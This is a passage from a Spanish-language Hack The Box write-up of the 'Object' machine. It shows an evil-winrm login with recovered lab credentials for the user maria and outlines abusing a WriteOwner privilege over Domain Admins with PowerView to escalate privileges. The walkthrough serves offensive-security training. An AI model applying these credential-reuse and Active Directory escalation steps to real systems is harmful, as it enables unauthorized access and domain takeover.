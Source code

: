 Probamos las contraseña y obtenemos nuevas credenciales validas, `maria:W3llcr4ft3d_4cls`, nos conectamos y ahora somos el usuario `maria`.

```bash
❯ evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> whoami
object\maria
```
Ahora como maria vemos que tenemos el privilegio de `WriteOwner` sobre `Domain Admins` y ya con esto podriamos asignarnos el grupo `Domain Admins`.

![](/assets/images/HTB/htb-writeup-Object/ob8.PNG)

Si vemos el `abuse info` nuevamente podemos ver que nos indica una forma en la que podemos hacerlo, para ello vamos a ejecutar lo siguiente, pero no sin antes volver a importar el `PowerView.ps1`.
